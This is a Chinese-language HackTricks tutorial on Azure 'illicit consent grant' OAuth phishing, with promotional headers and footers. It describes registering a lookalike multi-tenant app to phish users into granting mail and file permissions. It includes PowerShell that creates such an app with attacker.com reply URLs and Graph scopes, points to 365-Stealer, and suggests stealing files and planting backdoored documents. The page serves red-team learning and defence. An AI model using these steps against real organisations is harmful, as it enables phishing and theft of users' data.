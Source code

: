# Az - 非法同意授予

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## OAuth应用程序钓鱼

**Azure应用程序**请求访问**用户数据**的权限（基本信息，还可以访问文档，发送电子邮件等）。\
如果**允许**，普通用户只能为**“低影响权限”**授予同意。在**所有其他**情况下，**需要管理员同意**。\
`GA`、`ApplicationAdministrator`、`CloudApplication` `Administrator`和包括`允许向应用程序授予权限`的自定义角色可以提供租户范围的同意。

只有**不需要管理员同意**的权限被分类为**低影响**。这些是用于**基本登录的权限**，如openid、profile、email、User.Read和offline\_access。如果**组织****允许**用户对**所有应用程序**进行同意，员工可以同意应用程序**从其个人资料中读取上述信息**。

<figure><img src="../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

因此，攻击者可以准备一个**恶意应用程序**，通过**钓鱼**使用户**接受该应用程序并窃取其数据**。

### 2种非法同意授予攻击类型

* **未经身份验证**：从外部帐户创建一个具有权限`User.Read`和`User.ReadBasic.All`的应用程序，例如，钓鱼一个用户，然后您将能够访问目录信息。
* 这需要被钓鱼的用户能够接受来自外部环境的OAuth应用程序！
* **经过身份验证**：已经破坏了具有足够特权的主体，创建一个帐户内的应用程序，并钓鱼一些可以接受特权OAuth权限的特权用户。
* 在这种情况下，您已经可以访问目录信息，因此权限`User.ReadBasic.All`不再有趣。
* 您可能对**需要管理员授予的权限**感兴趣，因为原始用户无法为OAuth应用程序授予任何权限，这就是为什么您需要**只钓鱼那些用户**（稍后将详细介绍哪些角色/权限授予了此特权）

### 检查用户是否允许同意

以下PowerShell命令用于检查Azure Active Directory（Azure AD）中用户的同意配置，以确定他们是否能够同意应用程序：
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
* **禁用用户同意**: 此设置禁止用户向应用程序授予权限。不允许用户同意任何应用程序。
* **用户可以同意来自经过验证的发布者或您的组织的应用程序，但仅限您选择的权限**: 此设置允许所有用户仅同意由经过验证的发布者发布的应用程序和在您自己的租户中注册的应用程序。它通过仅允许特定权限的同意添加了一层控制。
* **用户可以同意所有应用程序**: 此设置更为宽松，允许所有用户同意任何应用程序的权限，只要这些权限不需要管理员同意。
* **自定义应用程序同意策略**: 此设置表示已制定了自定义策略，可根据特定组织要求进行定制，并可能涉及基于应用程序发布者、应用程序请求的权限和其他因素的限制组合。

## **理解非法同意授予攻击**

在非法同意授予攻击中，攻击者欺骗最终用户向在Azure中注册的恶意应用程序授予权限。这是通过使应用程序看起来合法，导致受害者在不知情的情况下点击“接受”按钮来实现的。结果，Azure AD向攻击者的站点发放令牌，使其能够访问和操纵受害者的数据，例如读取或发送电子邮件和访问文件，而无需组织帐户。

## **攻击流程概述**

攻击涉及针对一家通用公司的几个步骤。以下是攻击可能展开的方式：

1. **域名注册和应用程序托管**: 攻击者注册一个类似可信站点的域名，例如“safedomainlogin.com”。在此域名下，创建一个子域（例如“companyname.safedomainlogin.com”）来托管一个旨在捕获授权代码并请求访问令牌的应用程序。
2. **在Azure AD中注册应用程序**: 然后，攻击者在其Azure AD租户中注册一个多租户应用程序，将其命名为目标公司，以显得合法。他们将应用程序的重定向URL配置为指向托管恶意应用程序的子域。
3. **设置权限**: 攻击者使用各种API权限（例如`Mail.Read`、`Notes.Read.All`、`Files.ReadWrite.All`、`User.ReadBasic.All`、`User.Read`）设置应用程序。一旦用户授予这些权限，攻击者就可以代表用户提取敏感信息。
4. **分发恶意链接**: 攻击者制作一个包含恶意应用程序的客户端ID的链接，并与目标用户共享，欺骗他们同意授予权限。

## **利用工具进行攻击**

攻击可以利用诸如[**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)之类的工具来实施。

### 攻击前准备:

如果攻击者对受害组织中的某个用户具有一定程度的访问权限，他们可能会检查组织的政策是否允许用户接受应用程序：
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Password!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("generic@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# Check if "ManagePermissionGrantsForSelf.microsoft-user-default-legacy" is present, indicating permission to accept apps.
```
为执行攻击，攻击者需要在其Azure租户中创建一个**新的应用程序**（在应用程序注册中），配置了以下权限：

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All`位于`Microsoft Graph`中的`委托权限`中。（应用程序权限始终需要额外批准）。

* `User.ReadBasic.All`是一个权限，如果被授予，将允许您**读取组织中所有用户的信息**。
* 请记住，只有`GA`、`ApplicationAdministrator`、`CloudApplication Administrator`和包括`授予应用程序权限的权限`的自定义角色可以提供租户范围的同意。因此，如果您希望他批准**需要管理员同意的应用程序**，则应**钓鱼一个具有这些角色之一的用户**。

您还可以通过cli创建一个应用程序：
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

查看[https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) 以了解如何配置。

{% hint style="warning" %}
请注意，获取的**访问令牌**将用于**图终结点**，具有范围：`User.Read` 和 `User.ReadBasic.All`（请求的权限）。您将无法执行其他操作（但这已足以**下载组织中所有用户的信息**）。
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

您还可以使用此工具执行此攻击。

## 后渗透

一旦您获得用户访问权限，您可以执行诸如窃取敏感文件甚至上传带后门的文档文件等操作。

## 参考资料

* [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 格式的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们**。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
